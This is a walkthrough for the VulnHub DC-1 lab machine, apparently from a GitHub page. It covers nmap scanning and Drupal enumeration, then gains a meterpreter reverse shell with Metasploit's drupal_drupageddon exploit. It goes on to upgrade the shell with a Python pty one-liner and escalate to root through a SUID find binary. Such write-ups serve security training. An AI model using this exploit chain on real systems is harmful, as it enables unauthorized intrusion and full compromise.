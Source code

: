 <h1>DC: 1</h1>

**Today, we'll be looking at the DC-1 machine on vulnhub.

You can download the machine [here](https://www.vulnhub.com/entry/dc-1,292/).

Let's scan the machine with nmap.
```
┌──(root㉿kali)-[~]
└─# nmap -sS -A -p- 192.168.56.103
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-26 14:50 EET
Nmap scan report for 192.168.56.103
Host is up (0.00015s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4d659e6774c227a961660678b42488f (DSA)
|   2048 1182fe534edc5b327f446482757dd0a0 (RSA)
|_  256 3daa985c87afea84b823688db9055fd8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
|_http-server-header: Apache/2.2.22 (Debian)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to Drupal Site | Drupal Site
|_http-generator: Drupal 7 (http://drupal.org)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35846/udp   status
|   100024  1          43348/tcp   status
|   100024  1          45635/tcp6  status
|_  100024  1          60640/udp6  status
43348/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:B8:A0:32 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.2 - 3.16
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.15 ms 192.168.56.103

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.51 seconds
```
The machine is running: http, ssh and rcpbind.

Browsing the machine on port 80, we can see it's running Drupal.
You can read the great article [here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal) about enumerating Drupal.
I downloaded the tool mentioned in the article **droopescan** and used it on the machine.

![](pics/pic1.png)

```droopescan scan drupal -u http://192.168.56.103```

![](pics/pic2.png)

I didn't find anything useful from the scan.

After some time, I searched for drupal using searchsploit and found a sql injection vulnerability.

![](pics/pic3.png)

Let's fire up metasploit.

I used this exploit: **exploit/multi/http/drupal_drupageddon**

Then set the options.

```set rhosts <TARGET IP>```

```set lhost <YOUR IP>```

We got a meterpreter session.

![](pics/pic4.png)

You can use the command ``shell`` to open bash shell from the meterpreter session.

You can also use these two commands to make your shell more stable.

```python -c 'import pty;pty.spawn("/bin/bash")'```

```export TERM=xterm```

![](pics/pic5.png)

Let's move to **tmp** and use linpeas for local enumeration.

In the suid section, you can see that we can run the command **find** with permissions.

![](pics/pic6.png)

Let's search for it on [gtfobins](https://gtfobins.github.io/).

![](pics/pic7.png)

We can use this command to get a root shell.

We got are now root!

![](pics/pic8.png)